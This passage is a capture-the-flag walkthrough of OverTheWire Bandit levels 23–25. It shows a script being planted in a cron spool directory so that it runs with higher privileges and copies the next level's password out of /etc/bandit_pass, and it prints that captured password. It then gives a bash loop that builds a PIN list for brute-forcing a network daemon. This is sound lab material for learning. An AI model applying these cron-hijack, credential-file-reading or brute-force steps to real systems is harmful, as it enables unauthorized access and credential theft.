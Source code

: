 In my case, i choose to write a simple bash script that reads the */etc/bandit_pass/bandit24* and saves the output to a file called *bandit24** in the /tmp/dir we created earlier. I gave the file execution permission and copied it to */var/spool/bandit24* directory. We wait a bit and we should see our file bandit24 that contains the password in /tmp/dir directory.

```terminal
bandit23@bandit:/tmp/dir$ ls
bandit24
bandit23@bandit:/tmp/dir$ cat bandit24
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

## **Level 24 -> Level 25**

### Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

### Solution

So we need to generate a list of possible combinations, save them is a file and use that list to brute force the pincode.


```bash
#!/bin/bash

for i in {0000..9999}; do
    echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ" $i >> list
done
```

That's the script i will use to generate the list. I put that in a file and gave that file execution permissions so i can run it.

```terminal
bandit24@bandit:/tmp/dir$ cat script.sh
#!/bin/bash

for i in {0000..9999}; do
    echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ" $i >> list
done
bandit24@bandit:/tmp/dir$ chmod +x script.sh
bandit24@bandit:/tmp/dir$ ./script.sh
bandit24@bandit:/tmp/dir$ ls
list  script.sh
```

Now if we check the list we generated, we'll see the following.

```terminal
bandit24@bandit:/tmp/dir$ head list
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0002
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0003
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0004
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0005
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0006
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0007
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0008
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0009
```
